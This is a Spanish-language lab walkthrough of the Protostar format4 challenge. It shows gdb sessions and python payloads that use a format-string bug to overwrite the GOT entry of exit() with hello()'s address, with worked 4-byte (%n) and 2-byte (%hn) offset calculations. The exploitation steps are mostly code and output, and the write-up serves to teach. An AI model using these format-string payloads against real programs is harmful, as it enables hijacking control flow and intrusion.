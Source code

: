```console
(gdb) x/x 0x8049724 
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:	0x080483f2 
(gdb) x/2i 0x080483f2 -> No se ha ejecutado todavia, por eso salen las insutrcciones que llaman al ld.so.
0x80483f2 <exit@plt+6>:	push   0x30
0x80483f7 <exit@plt+11>:	jmp    0x804837c
```

Por tanto con format srings meteremos en  "0x8049724" la direccion de hello() 
Vamos a calcular el offset primero

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("AAAA" + "%x."*4)' | ./format4
AAAA200.b7fd8420.bffff524.41414141
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\x24\x97\x04\x08" + "%4$n")' | ./format4
Segmentation fault
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\x24\x97\x04\x08" + "%4$n")' > /tmp/pattern
[user@protostar]-[/opt/protostar/bin]:$ gdb ./format4
(gdb) break * 0x0804850f -> Direccion de exit() para que nos muestre como hemos sobreescrito la direccion de la tabla GOT.
(gdb) run < /tmp/pattern
(gdb) x/x 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:	0x00000004 -> Este es el valor que nos sale.
(gdb) p &hello -> Sacar la direccion de hello
$1 = (void (*)(void)) 0x80484b4 <hello>
(gdb) p 0x80484b4 - 0x00000004 -> Restar la direccion de hello con el valor que nos sale en GOT para ver cuanto hay que aumentarlo
$2 = 134513840
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\x24\x97\x04\x08" + "%134513840x%4$n")' | ./format4
Se ha tirado un buen rato escribiendo lineas vacias en la pantalla, pero al fin...     
     200
code execution redirected! you win
```

## Expotación de 2 bytes: 
Vamos a escribir de dos en dos bytes, para ello la memoria es la original mas otra que suma 2 -> "0x8049724 y 0x8049726"
\x24\x97\x04\x08\x26\x97\x04\x08\. 

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\x24\x97\x04\x08\x26\x97\x04\x08\%4$hn%5$hn")' > /tmp/pattern
user@protostar]-[/opt/protostar/bin]:$ gdb ./format4
(gdb) break * 0x0804850f
(gdb) p &hello 
$16 = (void (*)(void)) 0x80484b4 <hello>
(gdb) run < /tmp/pattern
x/x 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:	0x00090009
(gdb) print 0x84b4 - 0x0009   -> Restamos la segunda mitad de la dir de hello() con lo que nos sale
$15 = 33963 -> Esto es lo que le pondremos al primer argumento
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\x24\x97\x04\x08\x26\x97\x04\x08\%33963x%4$hn%5$hn")' > /tmp/pattern
(gdb) run < /tmp/pattern
(gdb) x/x 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:	0x84b484b4 -> Ahora este es el GOT, pero no es el bueno, todavia nos queda un poco
(gdb) print 0x0804 - 0x84b4 -> Lo que nos debe salir (primera mitad - lo que nos sale)
$17 = -31920 -> Sale negativo, asi que le añadimos un uno a la izquierda
(gdb) print 0x10804 - 0x84b4
$19 = 33616 -> Esto es para el segundo argumento (el primero se queda como antes)
```
